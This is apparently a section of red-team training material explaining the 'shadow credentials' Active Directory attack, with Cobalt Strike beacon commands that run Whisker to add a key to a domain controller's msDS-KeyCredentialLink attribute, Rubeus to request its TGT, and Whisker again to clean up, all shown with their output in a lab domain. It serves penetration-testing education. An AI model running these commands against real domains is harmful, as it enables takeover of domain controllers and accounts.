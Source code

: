 Whilst Kerberos pre-authentication is typically carried out using a symmetric key derived from a client's password, asymmetric keys are also possible via Public Key Cryptography for Initial Authentication (PKINIT).  If a PKI solution is in place, such as Active Directory Certificate Services (next chapter), the domain controllers and domain members exchange their public keys via the appropriate Certificate Authority.  This is called the Certificate Trust model.

There is also a Key Trust model, where trust is established based on raw key data rather than a certificate.  This requires a client to store their key on their own domain object, in an attribute called `msDS-KeyCredentialLink`.  The basis of the "shadow credentials" attack is that if you can write to this attribute on a user or computer object, you can obtain a TGT for that principal.  As such, this is a DACL-style abuse as with RBCD.

Along with his excellent [blog post](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) on the subject, [Elad Shamir](https://twitter.com/elad_shamir) published a tool called [Whisker](https://github.com/eladshamir/Whisker), which makes exploiting this very easy.  First, we want to list any keys that might already be present for a target - this is important for when we want to clean up later.
```
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Listing deviced for dc-2$:
[*] No entries!
```
  

Add a new key pair to the target.
```
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe add /target:dc-2$
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password y52EhYqlfgnYPuRb
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
```
  

And now, we can ask for a TGT using the Rubeus command that Whisker provides.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:dc-2$ /certificate:MIIJuA[...snip...]ICB9A= /password:"y52EhYqlfgnYPuRb" /nowrap

[*] Using PKINIT with etype rc4_hmac and subject: CN=dc-2$ 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'dev.cyberbotic.io\dc-2$'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

doIGaj [...snip...] MuaW8=

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  dc-2$
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  1/21/2023 7:12:27 PM
  EndTime                  :  1/22/2023 5:12:27 AM
  RenewTill                :  1/28/2023 7:12:27 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  bKJ76Br5CFOL6zckBpl9IA==
  ASREP (key)              :  B0AA392AE0C969E268DAC4462D76FC90
```
  

Whisker's `clear` command will remove any and all keys from msDS-KeyCredentialLink.  This is a bad idea if a key was already present, because it will break legitimate passwordless authentication that was in place.  If this was the case, you can list the entries again and only remove the one you want.
```
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Listing deviced for dc-2$:
    DeviceID: 58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403 | Creation Time: 1/21/2023 7:19:04 PM
```

```
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe remove /target:dc-2$ /deviceid:58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Found value to remove
[+] Updated the msDS-KeyCredentialLink attribute of the target object
```